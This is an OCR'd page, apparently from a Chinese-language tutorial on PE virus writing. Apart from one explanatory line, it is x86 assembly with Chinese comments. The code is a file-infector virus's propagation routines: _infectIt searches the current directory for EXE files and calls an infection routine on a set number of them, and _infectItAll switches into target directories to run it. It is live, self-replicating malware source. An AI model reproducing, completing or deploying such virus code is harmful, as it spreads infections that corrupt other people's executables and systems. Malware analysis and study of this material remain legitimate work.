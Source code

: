 ------

以下函数是一些辅助函数，因注释比较明晰，就不再详细解释。

------

```assembly
1045 ;-----------------------------
1046 ;对指定个数的文件进行感染
1047 ;-----------------------------
1048 _infectIt proc
1049 ;首先找到第一个符合条件的文件
1050 and dword ptr [ebx+infections],00000000h ;计数清零
1051 lea eax,[ebx+offset WIN32_FIND_DATA1]
1052 push eax
1053 lea eax,[ebx+offset EXE_MASK]
1054 push eax
1055 call [ebx+_FindFirstFileA]
1056
1057 inc eax ;如果没有，返回-1，则退出
1058 jz failInfect
1059 dec eax
1060 mov dword ptr [ebx+searchHandle],eax ;存储搜索文件句柄
1061 _1:
1062 call _infect
1063 cmp byte ptr [ebx+infections],INFECTFILES ;处理超过指定个数文件，则退出
1064 jz failInfect
1065 _2:
1066 ;清空上一次填充的文件名内容，为下一步做准备
1067 lea edi,[ebx+WFD_szFileName]
1068 mov ecx,MAX_PATH
1069 xor al,al
1070 rep stosb
1071 lea eax,[ebx+offset WIN32_FIND_DATA1]
1072 push eax
1073 push dword ptr [ebx+searchHandle]
1074 ;找下一个符合条件的文件
1075 call [ebx+_FindNextFileA]
1076 or eax,eax ;找到下一个文件则转到_1继续处理
1077 jnz_1
1078 failInfect:
1079 ret
1080 _infectIt endp
1081
1082 _infectItAll proc
1083 ;指向第一个目录
1084 lea edi,[ebx+directories]
1085 push edi
1086 ;处理当前目录中的EXE文件
1087 call [ebx+_SetCurrentDirectoryA]
1088 call _infectIt
1089 ret
1090 _infectItAll endp
1091
1092
1093
```
